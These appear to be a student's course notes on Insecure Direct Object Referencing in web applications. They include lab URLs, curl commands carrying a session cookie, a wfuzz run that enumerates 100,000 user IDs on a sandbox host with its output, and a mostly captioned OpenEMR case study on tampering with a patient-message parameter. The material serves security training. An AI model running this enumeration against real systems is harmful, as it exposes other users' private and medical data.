

# Module 15: Insecure Direct Object Referencing

## Introduction to IDOR

### Static File IDOR

<figure><figcaption><p>Static File IDOR Landing Page</p></figcaption></figure>

_Sample routing_

```uri
/users/:userIdent/documents/:pdfFile
/trains/:from-:to
/book/:year-:author
```

_Routed URI Examples_

```uri
/users/18293017/documents/file-15 (PDF Retrieved)
/trains/LVIV-ODESSA               (Ticket File Retrieved)
/book/1996-GeorgeRRMartin         (Book Retrieved)
```

### Database Object Referencing (ID-Based) IDOR

_Example IDOR for a Database Object_

```uri
http://idor-sandbox:80/customerPage/?custId=1
```

## Exploiting IDOR in the Sandbox

### Accessing the IDOR Sandbox Application

_Start the VPN, the VM, and add its IP and hostname to your hosts file._

### Exploiting Static File IDOR

<figure><figcaption><p>Click "File-Based IDOR"</p></figcaption></figure>

<figure><figcaption><p>File-Based IDOR URI</p></figcaption></figure>

<figure><figcaption><p>Contents of the file</p></figcaption></figure>

<figure><figcaption><p>Setting ?f=2.txt</p></figcaption></figure>

### Exploiting ID-Based IDOR

<figure><figcaption><p>ID-Based IDOR</p></figcaption></figure>

<figure><figcaption><p>The /customerPage/?custId= URI</p></figcaption></figure>

<figure><figcaption><p>The Rendered Content</p></figcaption></figure>

<figure><figcaption><p>Incrementing the custId Database Parameter by one</p></figcaption></figure>


Because we retrieved information through the web browser for a separate user entirely that corresponds with a Customer ID value of "2", we can guess this was the second registered user for the web application.


### Exploiting More Complex IDOR

<figure><figcaption><p>Logging in as User Harb</p></figcaption></figure>

<figure><figcaption><p>Harb's Data</p></figcaption></figure>

_Gathering Erroneous Response Sizes_

```bash
kali@kali:~$ curl -s http://idor-sandbox:80/user/?uid=62718 -w '%{size_download}'
0
```

We got 0 because we didn't include a valid session ID.

<figure><figcaption><p>Gathering a valid session ID</p></figcaption></figure>

_Gathering Erroneous Response Sizes with a Session ID_


```bash
kali@kali:~$ curl -s /dev/null http://idor-sandbox:80/user/?uid=91191 -w '%{size_download}' --header "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64"
...
2873
```


_Fuzzing 100,000 possible UIDs_


```bash
kali@kali:~$ wfuzz -c -z file,/usr/share/seclists/Fuzzing/5-digits-00000-99999.txt --hc 404 --hh 2873 -H "Cookie: PHPSESSID=2a19139a5af3b1e99dd277cfee87bd64" http://idor-sandbox:80/user/?uid=FUZZ

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://idor-sandbox:80/user/?uid=FUZZ
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000011112:   200        76 L     174 W      2859 Ch     "11111"
000016328:   200        76 L     174 W      2860 Ch     "16327"
000023102:   200        76 L     174 W      2874 Ch     "23101"
000039202:   200        76 L     174 W      2867 Ch     "39201"
000041913:   200        76 L     174 W      2861 Ch     "41912"
000057192:   200        76 L     174 W      2863 Ch     "57191"
000062719:   200        76 L     174 W      2871 Ch     "62718"
000074833:   200        76 L     175 W      2868 Ch     "74832"
000083272:   200        76 L     174 W      2858 Ch     "83271"
000099181:   200        76 L     174 W      2866 Ch     "99180"

Total time: 755.6711
Processed Requests: 100000
Filtered Requests: 99990
Requests/sec.: 132.3327
```


<figure><figcaption><p>Exfiltrated Data</p></figcaption></figure>

### Extra Miles

_Do the labs._

## Case Study: OpenEMR

### Accessing The OpenEMR Case Study

_Start the VPN, the VM, and add the IP/hostname to your hosts file._

### Discovery of the IDOR Vulnerability

<figure><figcaption><p>OpenEMR Landing Page</p></figcaption></figure>

<figure><figcaption><p>Login form</p></figcaption></figure>

<figure><figcaption><p>Dashboard Panel for OpenEMR</p></figcaption></figure>

<figure><figcaption><p>Message Center - Tab</p></figcaption></figure>

<figure><figcaption><p>Message Center - Tab Content</p></figcaption></figure>

<figure><figcaption><p>Individual Patient Messages</p></figcaption></figure>

<figure><figcaption><p>Turning on Burp Suite's Intercept Feature</p></figcaption></figure>

<figure><figcaption><p>Clicking Print message</p></figcaption></figure>

<figure><figcaption><p>Intercepted Request in Burp Suite</p></figcaption></figure>

<figure><figcaption><p>Request in Repeater</p></figcaption></figure>

### Exploiting the IDOR Vulnerability

<figure><figcaption><p>Exfiltrated Data for Parameter Value of 11</p></figcaption></figure>

<figure><figcaption><p>Trying again with a value of 10</p></figcaption></figure>

### Extra Mile

_Do the lab._
